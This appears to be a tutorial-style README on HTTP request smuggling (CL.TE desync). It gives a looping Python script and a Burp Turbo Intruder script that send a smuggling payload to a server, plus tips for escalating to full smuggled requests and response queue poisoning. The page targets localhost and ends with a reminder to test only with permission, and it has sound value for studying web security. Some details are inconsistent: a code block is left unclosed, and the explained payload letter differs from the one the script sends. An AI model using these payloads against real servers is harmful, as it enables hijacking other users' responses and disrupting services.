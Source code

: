 A **chunked data request** usually refers to sending or receiving data in smaller parts (chunks), often used in streaming or when you don’t know the total size up front.

Here’s an example using **HTTP chunked transfer encoding** in a raw HTTP request:

---

### Example: HTTP Chunked Data Request

```
POST /upload HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Type: application/json

4
Wiki
5
pedia
E
 in
chunks.
0

```

![chunkexample](https://github.com/user-attachments/assets/73e99609-5a25-4e4d-b575-f6cd8e99e835)





✅ **Explanation:**

* `Transfer-Encoding: chunked` tells the server we are sending the body in parts.
* Each chunk starts with its **length in hexadecimal**, followed by the chunk data.
* The final chunk is `0`, signaling the end.

---


### 🧩 **Use python to test for CLTE for the site as shown by sending raw TCP**

```

import requests
import time

url = "http://localhost"
headers = {
    "Host": "localhost",
    "Content-Length": "100000",
    "Transfer-Encoding": "chunked",
    "Connection": "keep-alive"
}
payload = "0\r\n\r\nO"

while True:
    try:
        response = requests.post(url, headers=headers, data=payload)
        print(f"Sent - Status: {response.status_code}, Length: {len(response.content)}")
        time.sleep(.5)  # Adjust delay as needed
    except KeyboardInterrupt:
        print("\nStopping attack...")
        break
    except Exception as e:
        print(f"Error: {str(e)}")
        time.sleep(1)

---

### 🧩 **What’s happening?**

In your script, the payload is:

```
0\r\n\r\nG
```

Let’s break that down:

* `0\r\n\r\n` → signals **end of chunked transfer body**.
* `G` → **extra data after the end**.

Normally, the server would process:

1. Read chunked body (`0\r\n\r\n` means: body done).
2. Anything **after** that (`G`) may or may not be interpreted as part of the next request, depending on how the server’s HTTP parser works.

This “extra” `G` becomes critical **only if**:
✅ The server keeps the connection open (`Connection: keep-alive`).
✅ The server doesn’t strictly discard extra input after the body.
✅ The parser treats that `G` as part of a pipelined or next request.

---

### ⚠ **Why does the letter matter?**

The reason **only certain letters like `G` work** is because the HTTP parser interprets the next incoming data **as the start of a new request**.

In HTTP/1.1, a request line looks like:

```
<method> <path> HTTP/1.1
```

Common methods are:

* **GET**
* **POST**
* **HEAD**
* **OPTIONS**
* **PUT**
* **DELETE**

Notice the first character:

* `G` → likely triggers `GET` parsing.
* `P` → might start `POST` or `PUT`.
* `H` → might start `HEAD`.
* Random letters like `X`, `Y`, `Z` → **don’t match any HTTP verb** → cause the server to ignore or close the connection.

So, **only when the leftover data starts with a valid HTTP method letter** does the server *continue interpreting* it as part of a new request — leading to:
✅ request smuggling,
✅ request-response desynchronization,
✅ potential response poisoning.

---

### 🔍 **What if you remove the `G` or change it?**

If you change the trailing `G` to something like:

* `X` → not a valid HTTP method → the server drops or errors.
* `GET` → now you have a *full* new request starting, making the attack more aggressive.
* No letter → nothing extra sent, no confusion.

---

### 🛡 **Why is this dangerous?**

This pattern is related to **HTTP request smuggling**, a class of attacks exploiting inconsistencies between how front-end (e.g., proxy, CDN) and back-end (e.g., app server) parse requests.

Here, you manually craft a payload that leaves the connection in a poisoned state, letting you:

* Inject new requests.
* Hijack other users’ responses.
* Cause backend desynchronization.

The trailing `G` **isn’t magic** by itself — it just happens to fit the parser expectations and slip past defensive checks.

---

### 📦 Summary

✅ **The `G` matters because the server tries to interpret it as the start of a new HTTP request (like `GET`).**
✅ Without a valid method letter, the server wouldn’t parse the next part as a new request.
✅ This behavior depends on the server’s and intermediary’s HTTP parser implementation.

---

How to load and run a script in **Turbo Intruder** in **Burp Suite** to simulate your Python desync attack.

---

### ✅ **Step-by-step: Load a Turbo Intruder script**

#### 1. **Install Turbo Intruder**

* Go to **Burp Suite** → **Extensions** tab.
* Click **“BApp Store”**.
* Find **Turbo Intruder**.
* Click **Install**.

#### 2. **Send a request to Turbo Intruder**

* In **Burp Repeater**, craft a basic POST request to your target (e.g., `POST / HTTP/1.1 ...`).
* Right-click on the request.
* Choose: **“Send to Turbo Intruder”**.

#### 3. **Load a custom script**

* Turbo Intruder opens in a new tab with a default script.
* Delete the default code and **paste this custom script**:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           pipeline=False,
                           timeout=10)

    # Raw HTTP request
    req = '''POST / HTTP/1.1
Host: localhost
Content-Length: 100000
Transfer-Encoding: chunked
Connection: keep-alive

0

G'''  # You can change G to O or other characters

    engine.queue(req)

def handleResponse(req, interesting):
    print(f"Status: {req.response.status}, Length: {len(req.response.body)}")
```

#### 4. **Modify the target if needed**

* Make sure the `Host: ...` header and path (`/`) match your server.
* You can use `target.replaceIn` if you want to inject values from wordlists, but for raw attacks like this, hardcoding is fine.

#### 5. **Run the script**

* Click **“Run”** (top-left of the Turbo Intruder tab).
* Watch the **console output** for responses and status codes.

---

### 🧪 **Tips for Testing Desync**

* Vary the trailing letter: `G`, `O`, `P`, `GET`, etc.
* Try adding a second **full HTTP request** after the `0\r\n\r\n` to simulate smuggling.
* Use `pipeline=True` in `RequestEngine` if you're testing response queue poisoning.

---

### 🔒 **Reminder: Use responsibly**

Turbo Intruder is extremely powerful — it can crash or poison servers. Only test on systems you own or have explicit permission to test.

---


